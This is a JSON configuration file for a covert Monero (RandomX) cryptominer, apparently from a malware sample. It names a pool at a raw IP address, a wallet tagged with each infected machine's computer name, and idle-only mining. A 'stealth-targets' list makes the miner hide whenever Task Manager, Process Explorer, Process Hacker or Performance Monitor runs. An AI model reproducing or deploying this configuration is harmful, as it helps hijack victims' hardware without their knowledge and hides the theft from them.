 {
    "algo": "rx/0",
    "pool": "192.248.189.11",
    "port": 443,
    "wallet": "44Z3QKPnxJmZiRASHHm7kET6Qi33qMt8P9xYSNsoVZcBHBPsg43CXhDe3Zh2mercu9VaEPdvgZbJvSD1cHfPvFNz8kCxyZG.{COMPUTERNAME}",
    "password": "x",
    "nicehash": false,
    "ssltls": true,
    "max-cpu": 40,
    "idle-wait": 5,
    "idle-cpu": 90,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": false
}
